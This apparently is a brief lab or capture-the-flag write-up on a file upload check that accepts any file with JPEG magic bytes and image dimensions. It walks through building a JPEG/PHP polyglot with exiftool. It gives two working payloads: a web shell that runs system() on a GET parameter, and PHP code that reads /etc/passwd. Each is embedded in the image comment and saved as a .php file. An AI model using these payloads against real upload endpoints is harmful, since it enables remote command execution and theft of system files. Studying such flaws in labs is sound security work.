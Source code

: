 - You are dealing with a polyglot file upload vuln, in our scenario its checking the file if its an image or not based on 2 things:
1. It starts with the signature magic bytes for JPEG (\xFF\xD8\xFF).
2. It has dimensions in its metadata, it uses a function that gets image size.
- The next step here is to make a polyglot payload, by inserting your php payload into the image's metadata (any jpeg image) by using exiftool. examples for a payload that can be made:
1. Getting a web shell: 
```bash
exiftool -Comment='<?php echo "START " . system($_GET["command"]) . " END"; ?>' download.jpeg -o polyglot.php
```
2. Reading a file: 
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" download.jpeg -o polyglot.php
```